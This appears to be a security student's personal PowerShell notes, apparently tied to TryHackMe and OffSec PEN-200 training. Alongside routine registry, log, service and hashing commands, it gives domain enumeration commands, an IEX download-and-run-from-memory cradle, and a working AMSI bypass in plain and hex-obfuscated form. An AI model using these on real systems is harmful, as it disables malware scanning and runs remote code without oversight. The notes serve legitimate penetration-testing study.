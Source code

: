 # Using PowerShell

author:: Nathan Acks  
date:: 2021-11-25

## Access the Registry Through PowerShell

You can actually access the registry from PowerShell using the `cd` command: `cd HKLM:\` will take you to the HKEY_LOCAL_MACHINE hive, for instance.

Major hives:

* HKEY_CLASSES_ROOT
* HKEY_CURRENT_USER
* HKEY_LOCAL_MACHINE
* HKEY_USERS
* HKEY_CURRENT_CONFIG

## Commands

### Accessing Windows Logs

Use the `Get-WinEvent` cmdlet.

### Domain Enumeration

```powershell
# Get domain users and associated groups
#
Get-DomainUsers | select name, memberof

# Get all domain group members, including nested domain groups
#
Get-DomainGroupMember -Identity $GROUP_NAME

# Show all users that previously logged on to a machine (defaults to
# local machine; requires admin privileges to be run against remote
# machines)
#
Get-NetLoggedon | select UserName

# Show all users who are logged in to a machine RIGHT NOW (does not
# require admin privileges for remote systems if run from Windows Server)
#
Get-NetSession
```

### Download a File

```powershell
# Download to disk
#
Invoke-WebRequest -Uri $URL_OF_FILE -OutFile $FILE_ON_DISK

# Download into a variable (useful for scripts!)
#
$SCRIPT_DATA = (New-Object System.Net.Webclient).DownloadString("$SCRIPT_URL")

# Download and invoke from memory
#
IEX (New-Object System.Net.Webclient).DownloadString("$SCRIPT_URL")
```

### Disable AMSI

Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts!).

One bypass for this:

```powershell
[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Note that AMSI uses a regular expression to trap all PowerShell commands that contain AMSI-function related strings, however. This can be bypassed by breaking up the above script into separate variables, or by doing fancy string encoding-and-reassembly tricks.

```powershell
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

Be aware that AMSI bypasses are *per session*, not global!

### Manipulating Services

* `Get-Service` — list all services, or drill down on a particular service.
* `Start-Service -Name $SERVICE`/`sc start $SERVICE` — start $SERVICE.
* `Stop-Service -Name $SERVICE`/`sc stop $SERVICE` — stop $SERVICE.

### Calculating File Hashes

```powershell
Get-FileHash -Algorithm $ALGORITHM $FILE_PATH
```

The algorithm can be excluded (in which case SHA-256 is used). *Lots* of different hashing algorithms are supported — run `help Get-FileHash` to see a list.

## Run PowerShell from cmd.exe

```bat
powershell -c "$COMMAND"
```

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Get-WinEvent](get-winevent.md)
* [TryHackMe: MAL: Researching](tryhackme-mal-researching.md)
* [2022-08-24 - OffSec Live: PEN-200 & AWS Deep Dive](../log/2022-08-24-offsec-live-pen-200-and-aws-deep-dive.md)
* [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)
* [2022-08-26 - OffSec Live: PEN-200](../log/2022-08-26-offsec-live-pen-200.md)

